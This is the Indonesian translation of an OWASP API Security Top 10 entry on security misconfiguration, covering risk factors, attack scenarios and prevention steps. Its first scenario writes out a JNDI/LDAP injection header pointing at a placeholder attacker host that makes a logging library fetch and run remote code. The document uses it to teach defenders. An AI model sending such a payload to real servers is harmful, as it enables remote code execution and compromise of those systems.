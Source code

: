# API8:2023 Konfigurasi Keamanan

| Agen Ancaman/Vektor Serangan | Kelemahan Keamanan | Dampak |
| - | - | - |
| Khusus API : Kemungkinan Dieksploitasi **Mudah** | Meluas **Disebarluaskan** : Kemungkinan Dideteksi **Mudah** | Teknis **Parah** : Khusus Bisnis |
| Penyerang sering mencoba menemukan kelemahan yang belum diperbaiki, titik akhir umum, layanan yang berjalan dengan konfigurasi default yang tidak aman, atau file dan direktori yang tidak terlindungi untuk mendapatkan akses tidak sah atau pengetahuan tentang sistem. Sebagian besar informasi ini adalah pengetahuan publik dan eksploitasi mungkin tersedia. | Konfigurasi keamanan dapat terjadi di semua tingkat tumpukan API, mulai dari tingkat jaringan hingga tingkat aplikasi. Alat otomatis tersedia untuk mendeteksi dan mengeksploitasi konfigurasi yang salah seperti layanan yang tidak perlu atau opsi warisan. | Konfigurasi keamanan tidak hanya mengekspos data pengguna yang sensitif, tetapi juga detail sistem yang dapat menyebabkan kompromi penuh server. |

## Apakah API Rentan?

API dapat rentan jika:

* Penguncian keamanan yang sesuai hilang di seluruh bagian tumpukan API,
  atau izin yang dikonfigurasi dengan tidak benar pada layanan cloud
* Patch keamanan terbaru hilang, atau sistem sudah kadaluwarsa
* Fitur yang tidak diperlukan diaktifkan (misalnya, verba HTTP, fitur logging)
* Ada ketidaksesuaian dalam cara permintaan masuk diproses oleh server
  dalam rantai server HTTP
* Keamanan Lapisan Transportasi (TLS) hilang
* Direktif keamanan atau kendali cache tidak dikirimkan kepada klien
* Kebijakan Cross-Origin Resource Sharing (CORS) hilang atau diatur dengan tidak benar
* Pesan kesalahan mencakup jejak tumpukan, atau mengekspos informasi sensitif lainnya

## Contoh Skenario Serangan

### Skenario #1

Sebuah server API back-end menjaga catatan akses yang ditulis oleh utilitas logging sumber terbuka pihak ketiga yang populer dengan dukungan ekspansi tempat dan pencarian JNDI
(Java Naming and Directory Interface), keduanya diaktifkan secara default. Untuk
setiap permintaan, entri baru ditulis ke file log dengan pola berikut: `<metode> <versi_api>/<jalur> - <kode_status>`.

Pelaku jahat mengeluarkan permintaan API berikut, yang ditulis ke file log akses:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Karena konfigurasi default yang tidak aman dari utilitas logging dan kebijakan keluar jaringan yang longgar, untuk menulis entri yang sesuai
ke file log akses, sambil memperluas nilai dalam header permintaan `X-Api-Version`, utilitas logging akan menarik dan menjalankan objek `Malicious.class` dari server yang dikendalikan oleh pelaku jahat.

### Skenario #2

Sebuah situs jaringan sosial menawarkan fitur "Pesan Langsung" yang memungkinkan pengguna
mempertahankan percakapan pribadi. Untuk mengambil pesan baru untuk percakapan tertentu, situs web mengeluarkan permintaan API berikut (interaksi pengguna tidak diperlukan):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Karena tanggapan API tidak termasuk header tanggapan HTTP `Cache-Control`, percakapan pribadi akan disimpan dalam cache browser web, memungkinkan
pelaku jahat mengambilnya dari file cache browser dalam sistem file.

## Cara Mencegah

Siklus hidup API harus mencakup:

* Proses penguncian berulang yang mengarah pada penerapan lingkungan yang terkunci dengan baik
  atau jika izin dikonfigurasi dengan tidak benar pada layanan cloud
* Tugas untuk meninjau dan memperbarui konfigurasi di seluruh tumpukan API. Tinjauan harus mencakup: file orkestrasi, komponen API, dan layanan cloud
  (misalnya, izin bucket S3)
* Proses otomatis untuk terus-menerus menilai efektivitas konfigurasi dan pengaturan di semua lingkungan

Selain itu:

* Pastikan semua komunikasi API dari klien ke server API dan komponen hulu/hilir terjadi melalui saluran komunikasi yang terenkripsi
  (TLS), tanpa memandang apakah itu API internal atau publik.
* Jadilah spesifik tentang verba HTTP mana pun yang dapat diakses oleh setiap API: semua verba HTTP lainnya harus dinonaktifkan (misalnya, HEAD).
* API yang diharapkan diakses dari klien berbasis browser (misalnya, front-end WebApp) harus setidaknya:
  * mengimplementasikan kebijakan Cross-Origin Resource Sharing (CORS) yang benar
  * menyertakan Header Keamanan yang berlaku
* Batasi jenis konten/mode data masuk hanya pada yang memenuhi persyaratan bisnis/fungsional.
* Pastikan semua server dalam rantai server HTTP (misalnya, penyeimbang beban, proxy mundur
  dan maju, serta server backend) memproses permintaan masuk dengan cara yang seragam untuk menghindari masalah desinkronisasi.
* Jika memungkinkan, tentukan dan tegakkan semua skema muatan respons API, termasuk respons kesalahan, untuk mencegah pengecualian jejak dan informasi berharga lainnya dikirimkan kembali kepada pelaku serangan.

## Referensi

### OWASP

* [Proyek OWASP Secure Headers][1]
* [Pengujian Konfigurasi dan Manajemen Implementasi - Panduan Pengujian Keamanan Web Guide][2]
* [Pengujian Penanganan Kesalahan - Panduan Pengujian Keamanan Web][3]
* [Pengujian Cross Site Request Forgery - Panduan Pengujian Keamanan Web][4]

### Eksternal

* [CWE-2: Kelemahan Keamanan Lingkungan][5]
* [CWE-16: Konfigurasi][6]
* [CWE-209: Pembuatan Pesan Kesalahan yang Mengandung Informasi Sensitif][7]
* [CWE-319: Pengiriman Teks Terbuka Informasi Sensitif][8]
* [CWE-388: Penanganan Kesalahan][9]
* [CWE-444: Interpretasi Tidak Konsisten Permintaan HTTP ('HTTP Request/Response Smuggling')][10]
* [CWE-942: Kebijakan Lintas Domain yang Permissif dengan Domain yang Tidak Terpercaya][11]
* [Panduan Keamanan Umum Server][12], NIST
* [Let's Encrypt: Otoritas Sertifikat Gratis, Otomatis, dan Terbuka][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/